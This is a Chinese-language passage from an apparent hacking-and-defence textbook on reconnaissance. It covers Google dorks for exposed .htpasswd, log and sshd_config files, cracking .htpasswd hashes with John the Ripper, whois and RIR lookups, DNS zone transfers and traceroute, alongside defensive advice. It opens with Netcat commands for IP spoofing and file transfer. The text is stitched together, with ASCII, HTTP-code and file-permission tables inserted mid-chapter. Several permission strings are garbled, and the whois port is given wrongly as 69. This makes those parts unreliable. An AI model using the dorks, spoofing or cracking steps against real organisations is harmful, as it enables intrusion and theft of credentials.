| 注意：可以使用 -G 标志指定多达八个跳点。使用 -g 标志指定源路由指针。 |  |

### 有用的 Netcat 命令

| 描述 | 命令 |
| :--- | :--- |
| 指定源 IP 地址 | 使用 `-s` 标志伪造源 IP 地址： |
| | `nc -s spoofed_ip remote_host port` |
| | 此命令将导致远程主机响应回伪造的 IP 地址。`-s` 标志可以与本表中介绍的大多数命令一起使用。 |
| 传输文件 | 在服务器主机上： |
| | `nc -v -l -p <port> < <file>` |
| | 在客户端主机上： |
| | `nc -v <server_host> <port> > <file>` |
| | 客户端主机也可以在端口上进行监听以接收文件。为此，在客户端主机上运行以下命令： |
| | `nc -v -l -p <port> > file` |
| | 并在服务器主机上运行以下命令： |
| | `nc -v <client_host> <port> < file` |


### ASCII 表

ASCII（美国信息交换标准代码）字符集包含 128 个条目，由控制码、字母、数字和标点符号组成。下表以十进制、十六进制和八进制表示法展示了 ASCII 集。

| 十进制 | 十六进制 | 八进制 | 字符 |
| :--- | :--- | :--- | :--- |
| 0 | 00 | 000 | NUL (空) |
| 1 | 01 | 001 | SOH (标头开始) |
| 2 | 02 | 002 | STX (文本开始) |
| 3 | 03 | 003 | ETX (文本结束) |
| 4 | 04 | 004 | EOT (传输结束) |
| 5 | 05 | 005 | ENQ (询问) |
| 6 | 06 | 006 | ACK (确认) |
| 7 | 07 | 007 | BEL (铃) |
| 8 | 08 | 010 | BS (退格) |
| 9 | 09 | 011 | TAB (水平制表符) |
| 10 | 0a | 012 | LF (换行符) |
| 11 | 0b | 013 | VT (垂直制表符) |
| 12 | 0c | 014 | FF (换页符) |
| 13 | 0d | 015 | CR (回车符) |
| 14 | 0e | 016 | SO (移出) |
| 15 | 0f | 017 | SI (移入) |
| 16 | 10 | 020 | DLE (数据链路转义) |
| 17 | 11 | 021 | DC1 (设备控制 1) |
| 18 | 12 | 022 | DC2 (设备控制 2) |
| 19 | 13 | 023 | DC3 (设备控制 3) |
| 20 | 14 | 024 | DC4 (设备控制 4) |
| 21 | 15 | 025 | NAK (否定确认) |
| 22 | 16 | 026 | SYN (同步空闲) |
| 23 | 17 | 027 | ETB (传输块结束) |
| 24 | 18 | 030 | CAN (取消) |
| 25 | 19 | 031 | EM (介质结束) |
| 26 | 1a | 032 | SUB (替代) |
| 27 | 1b | 033 | ESC (转义) |
| 28 | 1c | 034 | FS (文件分隔符) |
| 29 | 1d | 035 | GS (组分隔符) |
| 30 | 1e | 036 | RS (记录分隔符) |
| 31 | 1f | 037 | US (单元分隔符) |
| 32 | 20 | 040 | 空格 |
| 33 | 21 | 041 | ! |
| 34 | 22 | 042 | " |


| 35 | 23 | 043 | # |

| 36 | 24 | 044 | $ |

| 37 | 25 | 045 | % |

| 38 | 26 | 046 | & |

| 39 | 27 | 047 | ' |

| 40 | 28 | 050 | ( |

| 41 | 29 | 051 | ) |

| 42 | 2a | 052 | * |

| 43 | 2b | 053 | + |

| 44 | 2c | 054 | , |

| 45 | 2d | 055 | - |


# 第一部分

## 黑客技术与防御

- 第 1 章 侦察
- 第 2 章 扫描与识别
- 第 3 章 枚举
- 第 4 章 远程黑客攻击
- 第 5 章 权限提升
- 第 6 章 隐藏

### 第 1 章 侦察

本章内容：
- 搜索引擎
- 域名注册商
- 区域互联网注册机构
- DNS 反向查找
- 邮件交换
- 区域传输
- 路由追踪
- 摘要

侦察是一个使用公开可用方法收集目标初步数据的过程。这些信息可用于更好地理解目标的网络架构。本章介绍了收集和获取此类信息的不同方式和技术，包括使用搜索引擎以及域名和网络块注册商。尽管侦察是黑客方法论中光鲜程度最低的部分，但它是一个重要的第一步。

#### 搜索引擎

可以使用搜索引擎查找可能指向敏感信息的有趣细节和链接。由于查询是在搜索引擎的数据库上执行的，除非直接访问结果 URL，否则在目标 Web 服务器的日志中不会引起注意。

有很多方法可以执行敏感数据的创造性查询。以下部分提供了一些想法。

##### 搜索招聘广告以发现管理弱点

许多公司宣传空缺职位，这可以提供关于其安全状况的大量信息。例如，如果一家公司正在积极招聘防火墙专家，他们的防火墙配置可能很弱，这一事实为黑客提供了更多关于重点关注的方向。Résumé 服务，如 [http://www.monster.com/](http://www.monster.com/)，是潜在入侵者已知寻找此类信息的地方。

##### 搜索 EDGAR

EDGAR（“电子数据收集、分析和检索”）数据库包含关于上市公司的信息。公司收购等细节特别感兴趣，因为大型组织在合并初期往往难以管理其网络安全。EDGAR 数据库也可供潜在入侵者收集目标组织的季度和年度报告，这可能有助于潜在入侵者更好地理解该组织的最近活动。EDGAR 系统位于 [http://www.sec.gov/edgar.shtml.](http://www.sec.gov/edgar.shtml.)

##### HTTP 代码

HTTP 服务器对所有请求都返回一个 HTTP 代码。某些 HTTP 服务器不返回代码描述，而只返回其数值。下表可用于确定 HTTP 响应代码的含义。当编写自定义 HTTP 客户端 shell 脚本以分类和理解 HTTP 响应结果时，也可以使用此表。

| 代码 | 描述 |
| --- | --- |
| 100 | 继续 |
| 101 | 切换协议 |
| 200 | 确定 |
| 201 | 已创建 |
| 202 | 已接受 |
| 203 | 非权威信息 |
| 204 | 无内容 |
| 205 | 重置内容 |
| 206 | 部分内容 |
| 300 | 多种选择 |
| 301 | 永久移动 |
| 302 | 临时移动 |
| 303 | 参见其他 |
| 304 | 未修改 |
| 305 | 使用代理 |
| 307 | 临时重定向 |
| 400 | 错误请求 |
| 401 | 未认证 |
| 402 | 需要支付 |
| 403 | 禁止 |
| 404 | 未找到 |
| 405 | 方法不允许 |
| 406 | 不可接受 |
| 407 | 需要代理认证 |
| 408 | 请求超时 |
| 409 | 冲突 |
| 410 | 已删除 |
| 411 | 需要长度 |
| 412 | 前置条件失败 |
| 413 | 请求实体过大 |
| 414 | 请求 URI 过大 |
| 415 | 不支持的媒体类型 |
| 416 | 请求范围不可满足 |
| 417 | 期望失败 |
| 500 | 内部服务器错误 |
| 501 | 未实现 |
| 502 | 错误网关 |
| 503 | 服务不可用 |
| 504 | 网关超时 |
| 505 | 不支持 HTTP 版本 |

##### 重要文件

确保以下文件已分配适当的权限：

| 文件名 | 用户 | 组 | 权限 |
|---|---|---|---|
| `/bin` | root | root | drwxr-xr-x |
| `/etc` | root | root | drwxr-xr-x |
| `/etc/aliases` | root | root | -rw-r--r-- |
| `/etc/default/login` | root | root | -rw------- |
| `/etc/exports` | root | root | -rw-r--r-- |
| `/etc/hosts` | root | root | -rw-rw-r-- |
| `/etc/hosts.allow` | root | root | -rw------- |
| `/etc/hosts.deny` | root | root | -rw------- |
| `/etc/hosts.equiv` | root | root | -rw------- |
| `/etc/hosts.lpd` | root | root | -rw------- |
| `/etc/inetd.conf` | root | root | -rw------- |
| `/etc/issue` | root | root | -rw-r--r-- |
| `/etc/login.access` | root | root | -rw------- |
| `/etc/login.conf` | root | root | -rw------- |
| `/etc/login.defs` | root | root | -rw------- |
| `/etc/motd` | root | root | -rw-r--r-- |
| `/etc/mltab` | root | root | -rw-r--r-- |
| `/etc/netgroup` | root | root | -rw------- |
| `/etc/passwd` | root | root | -rw-r----- |
| `/etc/rc.d` | root | root | drwx------ |
| `/etc/rc.local` | root | root | -rw------- |
| `/etc/rc.sysinit` | root | root | -rw------- |
| `/etc/security` | root | root | -rw------- |
| `/etc/services` | root | root | -rW-r--r-- |
| `/etc/shadow` | root | root | -r---r----- |
| `/etc/ssh/ssh_host_key` | root | root | -rW------- |
| `/etc/ssh/ssh_host_rsa_key` | root | root | -rW------- |
| `/etc/ssh/sshd_config` | root | root | -rW------- |
| `/etc/ssh/ssh_host_dsa_key` | root | root | -rW------- |
| `/etc/ttys` | root | root | -rW------- |
| `/root` | root | root | drwx------ |
| `/sbin` | root | root | drwxr-xr-x |
| `/tmp` | root | root | drwxrwxrwt |
| `/usr/bin` | root | root | drwxr-xr-x |
| `/usr/etc` | root | root | drwxr-xr-x |
| `/usr/sbin` | root | root | drwxr-xr-x |
| `/var/log` | root | root | drwxr-xr-x |
| `/var/log/auditlog*` | root | root | -rW------- |
| `/var/log/boot*` | root | root | -rW------- |
| `/var/log/cron*` | root | root | -rW------- |
| `/var/log/dmesg` | root | root | -rW------- |
| `/var/log/lastlog` | root | root | -rW------- |


| `/var/log/maillog*` | root | root | -rW------- |
| `/var/log/messages*` | root | root | -rW------- |
| `/var/log/secure*` | root | root | -rW------- |
| `/var/log/spooler*` | root | root | -rW------- |
| `/var/log/syslog*` | root | root | -rW------- |
| `/var/log/utmp*` | root | utmp | -rW-rW-r-- |
| `/var/log/wtmp*` | root | utmp | -rW-rW-r-- |
| `/var/log/xferlog` | root | root | -rW------ |
| `/var/run` | root | root | dirwxr-xr-x |
| `/var/run/*.pid` | root user | root user | -rW-E-I-- |
| `/var/spool/cron` | root | root | dirwx------ |
| `/var/spool/cron/crontabs/root` | root | root | -r-------- |
| `/var/spool/mail` | root | mail | dirwxrwxr-x |
| `/var/spool/mail/*` | user | user | -rW-Ew--- |
| `/var/tmp` | root | root | dirwxrwxrwt |


### ASCII 字符表

| 十进制 | 十六进制 | 八进制 | 字符 |
| :------ | :-- | :---- | :-------- |
| 46 | 2e | 056 | . |
| 47 | 2f | 057 | / |
| 48 | 30 | 060 | 0 |
| 49 | 31 | 061 | 1 |
| 50 | 32 | 062 | 2 |
| 51 | 33 | 063 | 3 |
| 52 | 34 | 064 | 4 |
| 53 | 35 | 065 | 5 |
| 54 | 36 | 066 | 6 |
| 55 | 37 | 067 | 7 |
| 56 | 38 | 070 | 8 |
| 57 | 39 | 071 | 9 |
| 58 | 3a | 072 | : |
| 59 | 3b | 073 | ; |
| 60 | 3c | 074 | < |
| 61 | 3d | 075 | = |
| 62 | 3e | 076 | > |
| 63 | 3f | 077 | ? |
| 64 | 40 | 100 | @ |
| 65 | 41 | 101 | A |
| 66 | 42 | 102 | B |
| 67 | 43 | 103 | C |
| 68 | 44 | 104 | D |
| 69 | 45 | 105 | E |
| 70 | 46 | 106 | F |
| 71 | 47 | 107 | G |
| 72 | 48 | 110 | H |
| 73 | 49 | 111 | I |
| 74 | 4a | 112 | J |
| 75 | 4b | 113 | K |
| 76 | 4c | 114 | L |
| 77 | 4d | 115 | M |
| 78 | 4e | 116 | N |
| 79 | 4f | 117 | O |
| 80 | 50 | 120 | P |
| 81 | 51 | 121 | Q |
| 82 | 52 | 122 | R |
| 83 | 53 | 123 | S |
| 84 | 54 | 124 | T |
| 85 | 55 | 125 | U |
| 86 | 56 | 126 | V |
| 87 | 57 | 127 | W |
| 88 | 58 | 130 | X |
| 89 | 59 | 131 | Y |
| 90 | 5a | 132 | Z |
| 91 | 5b | 133 | [ |
| 92 | 5c | 134 | \ |
| 93 | 5d | 135 | ] |
| 94 | 5e | 136 | ^ |
| 95 | 5f | 137 | _ |
| 96 | 60 | 140 | ` |
| 97 | 61 | 141 | a |
| 98 | 62 | 142 | b |
| 99 | 63 | 143 | c |
| 100 | 64 | 144 | d |
| 101 | 65 | 145 | e |
| 102 | 66 | 146 | f |
| 103 | 67 | 147 | g |
| 104 | 68 | 150 | h |
| 105 | 69 | 151 | i |
| 106 | 6a | 152 | j |
| 107 | 6b | 153 | k |
| 108 | 6c | 154 | l |
| 109 | 6d | 155 | m |
| 110 | 6e | 156 | n |
| 111 | 6f | 157 | o |
| 112 | 70 | 160 | p |
| 113 | 71 | 161 | q |
| 114 | 72 | 162 | r |
| 115 | 73 | 163 | s |
| 116 | 74 | 164 | t |
| 117 | 75 | 165 | u |
| 118 | 76 | 166 | v |
| 119 | 77 | 167 | w |
| 120 | 78 | 170 | x |
| 121 | 79 | 171 | y |

#### 在日志文件中查找敏感信息

许多已知程序会向特定的日志文件写入数据。有时，这些日志文件会被意外放置在 Web 服务器的网站根目录下。例如，像在 `http://www.google.com/` 上执行类似 `Index of/ dead.letter` 的查询，会为您提供提供 `dead.letter` 文件的那些 Web 服务器的链接（参见图 1-1）。请注意，`dead.letter` 文件是由某些电子邮件客户端在用户取消发送电子邮件时创建的，它可能包含正在编辑的电子邮件的一部分内容。此文件以及其他类似的日志文件可能会向潜在的入侵者提供关键且机密的信息。



图 1-1. Web 服务器提供的用户 `dead.letter` 文件内容

还有许多其他众所周知的日志文件可以被搜索。其他示例包括 `syslog`、`maillog`、`spooler`、`messages`、`access_log` 和 `error_log`。

#### 搜索 Web 服务器统计信息

各种 Web 应用程序被用于向管理员提供 Web 流量的统计信息。这些统计数据通常受密码保护，并且可能包含机密信息和 URL。可以使用搜索引擎来查找配置错误的托管服务器，这些服务器会提供此类数据。例如，在 `http://www.google.com/` 上执行 `Index of" stats` 的搜索可能会暴露那些被错误配置为向未经身份验证的外部实体提供服务器统计数据的 Web 服务器的位置（参见图 1-2）。



**图 1-2.** somecompanyasanexample.com 向全世界提供 Web 服务器统计数据

#### 定位受保护的数据资源

敏感信息通常放置在网站中标有 `protected`、`secret`、`passwords` 等名称的目录内。很多时候，这些目录没有密码保护，可以轻松被搜索到。

作为一个例子，考虑 Apache Web 服务器，它通常被配置为在某些配置和密码文件存在于目录中时提供身份验证。密码文件通常称为 `.htpasswd`，不应该由 Web 服务器提供。要在 `http://www.google.com` 上搜索互联网上的此类文件，请执行以下查询：`Index of` `.htpasswd`。以下是 `.htpasswd` 文件的一个示例：

```text
joe:1wjdcj1jc0wGFA
admin:XrouH05qTMlU.
```

此文件中包含的密码哈希值可以使用 `John the Ripper` 等密码破解工具轻松破解。


```
[bash]$ john .htpasswd
Loaded 2 passwords with 2 different salts (Traditional DES [24/32 4K])
mpasswd (joe) (admin)
guesses: 2 time: 0:00:00:21 (3) c/s: 83610 trying: bly045 - $1st20
```

John the Ripper 可在 `http://www.openwall.com/john/` 获取。

## 在配置文件中查找敏感信息

各种包含密码、密钥、用户名、内部 IP 地址和其他敏感数据等信息的配置文件，当它们被放置在 Web 根目录内时，可能会被某些 Web 服务器错误地提供出来。搜索这些文件的关键在于知道它们的名称。一个潜在存在漏洞的文件是 `sshd_config`，它包含 SSH 服务器的配置信息。潜在入侵者可以使用查询 “Index of” `sshd_config` 进行搜索，以找到提供 `sshd_config` 文件的 Web 服务器。由于此类配置文件包含敏感信息，它们可能会暴露本不应被外部实体访问的关键信息。

## 搜索 Usenet 归档以发现管理疏忽

新闻组帖子通常包含可辅助攻击者的信息。例如，管理员有时会在技术 Usenet 组中发帖寻求关于某些主题的帮助。这些帖子可能会泄露大量信息，并提醒入侵者管理员在配置某些服务时遇到了困难。网站 `http://groups.google.com/` 可用于搜索此类泄露信息的帖子。

### 防范搜索引擎暴露漏洞

强烈建议实施以下防御策略，以最大限度地降低因搜索引擎和 Web 服务器配置错误导致敏感信息暴露的风险：

- 不要以可能暴露与安全相关管理弱点的方式宣传职位空缺。
- 定期审计您的 Web 服务器配置及其允许提供的数据是个好主意。如果您可以访问 Web 服务器本身，您可以从网站根目录内搜索特定信息。例如，以下命令将列出所有文件名中包含 “log” 单词的文件：

```bash
ls -alR /var/web-root/html | grep log
```

- 静态数据中的内容也可以进行搜索。要搜索网站根目录中文件内容里的特定单词，例如 “password”，请使用：

```bash
grep -R password /var/web-root
```

- 如果无法访问 Web 服务器文件系统的本地权限，`wget` 是一个很好的命令行工具，可用于镜像网站。一旦网站内容在本地可用，就可以像建议的那样对数据进行 `grep` 操作。`wget` 的使用示例：

```bash
wget -m -np http://www.somecompanyasanexample.com/
```

- `wget` 工具可从 `http://wget.lsd.ic.ac.uk/` 获取。
- 必须指示管理员不要使用他们的真实姓名和电子邮件地址在技术新闻组和消息板上发布职位空缺信息。

### 域名注册商

一个单一组织可能在不同的位置拥有许多网络。通过执行 `whois` 查询可以发现与特定组织关联的域名。大多数域名注册商都有一个相关的公共 `whois` 服务器（监听端口 69），`whois` 客户端可以连接该服务器以查询域名所有者的信息。域名 `whois` 查询返回的信息包括相关的 POC（Point of Contact，联系点）和 DNS IP 地址，这对于确定目标的网络存在非常有用。

由于域名可以通过众多注册商注册，因此您必须首先查询域名注册的注册商，然后从相关的注册商查询域名记录。为了查询正确的注册商，必须对公共 `whois` 服务器 `whois.crsnic.net` 执行 `whois` 查询。


> 许多注册商限制了以下各节中提到的查询类型。如果以下任何查询都没有得到特定 `whois` 服务器的正面响应，它们也许会在另一个注册商的 `whois` 服务器上起作用。

#### 按域名查询域名注册商记录

要查询 `somecompanyasanexample.com`，您必须使用命令行 `whois` 工具（大多数 Unix 和 Linux 发行版都包含此工具）在 `whois.crsnic.net` 上运行 `whois` 查询，如下所示：

```bash
[bash]$ whois -h whois.crsnic.net somecompanyasanexample.com
[whois.crsnic.net]
Whois Server Version 1.3
Domain names in the .com, .net, and .org domains can now be registered with many different competing registrars. Go to http://www.internic.net for detailed information.
Domain Name: SOMECOMPANYASANEXAMPLE.COM
Registrar: SOME REGISTRAR, INC.
Whois Server: whois.somewhoisserver.com
Referral URL: http://www.someregistrarasanexample.com
Name Server: NS1.SOMEEXAMPLESERVER.NET
Name Server: NS2.SOMEEXAMPLESERVER.NET
Updated Date: 05-nov-2001
>>> Last update of whois database: Sat, 11 Jan 2003 17:11:52 EST <<<
```

上述查询将返回域名的实际注册商及其 `whois` 服务器。在我们前面的示例中，`somecompanyasanexample.com` 的注册商的 `whois` 服务器是 `whois.somewhoiserver.com`。现在，我们必须查询 `whois.somewhoiserver.com`：

```
NOTICE AND WARNING BANNER HERE

Registrant:
Lname,_fname (SOMEHANDLE)   username@somecompanyasanexample.com
1234 Some St.
Somecity, SOMESTATE 99999
SOME COUNTRY

Domain Name: somecompanyasanexample.com

Administrative Contact, Technical Contact:
Lname2,_fname2 (SOMEHANDLE2)  user2@somecompanyasanexample.com
5678 Something St.
Somewhercity, SOMESTATE 99999
SOME COUNTRY
(123)456-7890

Record expires on 31-12-2004
Record created on 31-12-2002
Database last updated on 12-Jan-2003 03:44:29 EST.

Domain servers in listed order:
NS1.SOMEEXAMPLESERVER.NET
NS2.SOMEEXAMPLESERVER.NET
```

#### 按域名前缀查询域名注册商记录

为了搜索以 “somecompany” 开头的域名，可以使用以下查询：

```bash
[bash]$ whois -h whois.crsnic.net "somecompany."
[whois.somewhoiserver.com]
Whois server version 1.x

NOTICE AND WARNING BANNER HERE

SOMECOMPANY.COM
SOMECOMPANY.ORG
SOMECOMPANYASANEXAMPLE.COM
SOMECOMPANYTHATDOESNOTEXIST.COM
```

## 通过句柄查询域名注册商记录

在 `whois` 服务器上列出的个人都有一个与之关联的句柄（handle）。您可以查询特定的句柄以查找相关的联系信息：

```bash
$ whois -h whois.somewhoisserver.com "handle SOMEHANDLE"
[whois.somewhoisserver.com]
NOTICE AND WARNING BANNER HERE
Lastname, Firstname (SOMEHANDLE)  username@somecompanyasanexample.com
1234 Some St.
Somecity, SOMESTATE 99999
SOME COUNTRY
Database last updated on 12-Jan-2003 03:44:29 EST.
```

## 通过电子邮件查询域名注册商记录


在 `whois` 服务器上列出的个人通常都有一个关联的电子邮件地址。通过提供完整的电子邮件地址或其部分，可以搜索用户。因此，查询

```bash
whois -h whois.somewhoisserver.com "@somecompanyasanexample.com"
```

将返回记录中电子邮件地址包含域名 `@somecompanyasanexample.com` 的个人姓名。

## 防止因域名注册商记录导致的信息泄露

确保 `whois` 记录中列出的电子邮件地址以不同于您组织名称的域名结尾。这会使他人通过电子邮件查询您的记录变得更加困难。此外，一些域名注册商提供替代方案，将其联系信息放置在 `whois` 记录中，而不是您的个人联系信息。利用此选项是一个好主意，可以防止您的个人联系信息暴露给潜在入侵者。

### 域名注册商

## 区域互联网注册机构（RIR）

与域名类似，组织也可以分配 IP 地址块。可路由 IP 地址由四个主要的区域互联网注册机构（RIR）分配给组织，如表 1-1 所示。

表 1-1 列出了四个主要 RIR。然而，一些新的 RIR 计划在未来不久建立。详情和更新请参见 `http://www.aso.icann.org/`。

许多注册商限制了以下部分提到的查询类型。如果以下任何查询在特定的 `whois` 服务器上没有得到肯定响应，它们可能对另一个注册商的 `whois` 服务器有效。

### 通过公司前缀查询 RIR 记录

要查找由公司名称拥有的记录，可以执行 `like this` 的 `whois` 查询：

```bash
whois -h whois.rirwhoisserver.net "companynameprefix"
```

要搜索以 `somecompanyasanexample` 一词开头的公司名称的 RIR 记录：

```bash
[bash]$ whois -h whois.rirwhoisserver.net "somecompanyasanexample"
Some Company (SOMEC)
Some Company As An Example (SOMECA)

# RIR Whois database, last updated on 2003-01-11 01:00
```

| 名称 | Whois 服务器 | 区域 |
| :--- | :--- | :--- |
| 互联网号码分配机构 (ARIN) http://www.arin.net/ | whois.arin.net | 北美、加勒比部分地区和赤道以南的非洲 |
| 亚太网络信息中心 (APNIC) http://www.apnic.net | whois.apnic.net | 亚太地区 |
| 欧洲 IP 网络协调中心 (RIPE NCC) http://www.ripe.net/ | whois.ripe.net | 欧洲、中东、中亚和赤道以北的非洲国家 |
| 拉丁美洲和加勒比互联网地址注册机构 (LACNIC) http://lacnic.net/ | whois.lacnic.net | 拉丁美洲和加勒比地区 |

表 1-1. 四个区域互联网注册机构（RIR）

### 通过 IP 地址或网络块查询 RIR 记录

要了解哪个组织拥有特定的 IP 地址块，请尝试此形式的命令：

```bash
whois -h whois.rirwhoiserver.net ipaddressorblock
```

地址 `192.168.1.0/24` 属于分配的不可路由 IP 地址块。有关不可路由 IP 范围的更多信息，请参见 RFC 1918，可在 `http://www.faqs.org/rfcs/rfc1918.html` 获取。让我们假设 `192.168.1.0/24` 是一个有效且可路由的 IP 范围，以便用于我们的示例。如果我们要在 `whois.arin.net` 中搜索此块，我们将不得不尝试这样的查询：

```bash
[bash]$ whois -h whois.arin.net 192.168.1.0
[whois.arin.net]
OrgName:       Internet Assigned Numbers Authority
OrgID:        IANA

NetRange:        192.168.0.0 - 192.168.255.255
CIDR:          192.168.0.0/16
NetName:        IANA-CEIKL
NetHandle:    NET-192-168-0-0-1
Parent:        NET-192-0-0-0-0
NetType:        IANA Special Use
NameServer:  BLACKHOLE-1.IANA.ORG
NameServer:  BLACKHOLE-2.IANA.ORG
Comment:        This block is reserved for special purposes.
           Please see RFC 1918 for additional information.

RegDate:        1994-03-15
Updated:        2002-09-16

OrgTechHandle: IANA-ARIN
OrgTechName:        Internet Corporation for Assigned Names and Number
OrgTechPhone:    +1-234-567-8900
OrgTechEmail:    res-ip@iana.org

# ARIN Whois database, last updated 2003-01-12 20:00
# Enter ? for additional hints on searching ARIN's Whois database.
```

### 通过句柄查询 RIR 记录

在 RIR `whois` 服务器上列出的个人 POC 和组织都有一个与之关联的句柄。您可以查询特定的句柄以查找相关的联系信息：

```bash
whois -h whois.rirwhoiserver.com "HANDLE"
```

要搜索 Some-Company-As-An-Example 的句柄（`SOMECA`），我们将执行以下操作：

```bash
[bash]$ whois -h whois.rirwhoisserver.net "#SOMECA"
[whois.rirwhoisserver.net]
OrgName: Some Company As An Example
OrgID: SOMECA
Address: 1234 Some St.
Country: SOME COUNTRY
Comment:
RegDate: 1998-08-01
Updated: 1998-08-01
# RIR Whois database, last updated on 2003-01-11 01:00
```

### 通过电子邮件查询 RIR 记录

在 `whois` 服务器上列出的个人通常都有一个关联的电子邮件地址。通过提供完整的电子邮件地址或其部分，可以搜索用户。因此，以下查询将返回电子邮件地址包含域名 `@somecompanyasanexample.com` 的个人姓名：

```bash
[bash]$ whois -h whois.rirwhoisserver.com "@somecompanyasanexample.com"
[whois.rirwhoisserver.com]
Iname, Fname (LASTFIRST-RIR) username@somecompanyasanexample.com +
(123)456-7890
# RIR Whois database, last updated on 2003-01-11 01:00
```

### 防止因 RIR 记录导致的信息泄露

RIR 记录中列出的电子邮件地址应以不同于您组织名称的域名结尾。这会使他人通过电子邮件查询您的记录变得更加困难。一些 RIR 允许个人和组织联系人使用邮政信箱（P.O. Box）地址。应尽可能利用此选项，以防止个人联系信息暴露给潜在入侵者。

## DNS 反向查询

DNS 反向查询是向 DNS 服务器查询与特定 IP 地址关联的主机名的行为。

### 执行 DNS 反向查询

可以使用 `host` 命令执行反向查询：

```bash
host 10.0.0.3
```

3.0.0.10.in-addr.arpa domain name pointer

comp13-payrollftfpd.somecompanyasanexample.com.

此查询结果不仅告诉我们该主机可能正在运行 FTP 服务器，还告诉我们它的位置，13 号房间！

### 防止 DNS 反向查询信息泄露

正如前面的例子所示，DNS 反向查询可以揭示各种不应对外部用户可用的主机信息。可以采取以下预防措施来最小化此类信息的泄露：


- 不要分配可能泄露有关网络中主机任何信息的​​主机名。

- 考虑分配包含 IP 地址作为主机名一部分的主机名，例如 `3-0-0-10.somecompanyasanexample.com`。这种方案有助于从管理角度组织可用的主机，同时不会向外部实体泄露额外信息。

## 邮件交换

要了解组织的邮件服务器的主机名和 IP 地址，可以使用命令行 `dig` 工具查询域名的邮件交换（MX）记录：

```bash
[bash]$ dig mx somecompanyasanexample.com
; <<>> DiG 9.2.1 <<>> mx dhanjani.com
;; global options: printcmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 1234
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 2, ADDITIONAL: 2

;; QUESTION SECTION:
;somecompanyasanexample.com.        IN      MX

;; ANSWER SECTION:
somecompanyasanexample.com.    86400    IN      MX      10
mail.somecompanyasanexample.com.
```

## 权威资源区：

```
somecompanyasanexample.com.        4       IN      NS
ns1.someexampleserver.net.
somecompanyasanexample.com.        4       IN      NS
ns2.someexampleserver.net.

;; ADDITIONAL SECTION:
ns1.someexampleserver.net.          678     IN      A       10.0.0.1
ns2.someexampleserver.net.          141521  IN      A       192.168.1.1

;; Query time: 102 msec
;; SERVER: 10.1.1.1#53(10.1.1.1)
;; WHEN: Mon Jan 13 04:04:38 2003
;; MSG SIZE  rcvd: 141
```

`dig` 命令向我们的 ISP 的默认 DNS 服务器（`10.1.1.1`）查询了 `somecompanyasanexample.com` 的 MX 记录，并返回了其邮件服务器：`mail.someexampleserver.com`。

### 区域传输

DNS 服务器通常被配置为充当主服务器或从服务器。采用这种方法是出于提供层次结构和冗余的原因。当从 DNS 服务器联系主 DNS 服务器以更新其区域信息时，会发生区域传输。通过区域传输获得的 DNS 主机名信息可能会揭示组织中特定主机的角色或位置。非常常见的是，主 DNS 服务器配置错误，允许任何主机执行区域传输。

### 使用 host 命令执行区域传输

若要尝试针对特定组织进行区域传输，需要知道一个 DNS 服务器 IP 地址。如果没有该信息，可以尝试对目标域名进行 `whois` 查询，这将提供相关的 DNS IP 地址。一旦获得 DNS 服务器 IP 地址，就可以使用 `host` 命令尝试区域传输：

```
host -l domain DNSIP
```

例如：

```
[bash]$ host -l somecompanyasanexample.com 10.0.0.1
Using domain server:
Name: 10.0.0.1
Address: 10.0.0.1#53
Aliases:

somecompanyasanexample.net SOA ns1.someexampleserver.net.
Using domain server:
Name: 10.0.0.1
Address: 10.0.0.1#53

somecompanyasanexample.net name server ns1.someexampleserver.net.
Using domain server:
Name: 10.0.0.1
Address: 10.0.0.1#53

somecompanyasanexample.net name server ns2.someexampleserver.net.
Using domain server:
Name: 10.0.0.1
Address: 10.0.0.1#53

somecompanyasanexample.com has address 192.168.1.10
Using domain server:
Name: 10.0.0.1
Address: 10.0.0.1#53

somecompanyasanexample.com mail is handled by 10 mail.somecompanyasanexample.com
Using domain server:
Name: 10.0.0.1
Address: 10.0.0.1#53

mail.somecompanyasanexample.com has address 192.168.1.10
Using domain server:
Name: 10.0.0.1
Address: 10.0.0.1#53

firewall.somecompanyasanexample.com is an alias for vpn.somecompanyasanexample.com
Using domain server:
Name: 10.0.0.1
Address: 10.0.0.1#53

vpn.somecompanyasanexample.com has address 192.168.1.9
Using domain server:
Name: 10.0.0.1
Address: 10.0.0.1#53

payroll.somecompanyasanexample.com has address 192.168.1.33
Using domain server:
Name: 10.0.0.1
Address: 10.0.0.1#53
```

### 区域传输

正如这个例子所示，如果入侵者成功执行了区域传输，他或她可以获得有关组织内主机角色及其 IP 地址的信息。

### 防止区域传输滥用

为了防范区域传输滥用，强烈建议采取以下措施：

- 不允许未经授权的主机从你的 DNS 执行区域传输。

- 由于区域传输是在 TCP 端口 `53` 上执行的，请配置防火墙以阻止 TCP 端口 `53` 的入站连接。

- 为内部网主机安装独立的 DNS 服务器是一个好主意。该 DNS 服务器不应从外部访问。

## TRACEROUTE

借助前面的查询，仅知道目标组织的名称就可以获取 IP 地址。由于 IP 数据包通过不同的路径传输到其目的地，了解源（你自己）和目标主机之间的网关是非常有益的。

### 执行跟踪路由

可以使用名为 `traceroute` 的命令行工具来执行跟踪路由：

```
[bash]$ traceroute 10.0.0.1
traceroute to 10.0.0.1 (10.0.0.1), 30 hops max, 38 byte packets
1 yourisp.yourgateway.net (192.168.10.10) 13.069ms 8.099ms 10.133 ms
2 192.168.9.1 (192.168.9.1) 8.675ms 9.481ms 7.214ms
3 10.1.1.1 (10.1.1.1) 9.292ms 9.446ms 12.368ms
4 ns1.someexampleserver.net (10.0.0.1) 9.736ms 9.623ms 9.647ms
```

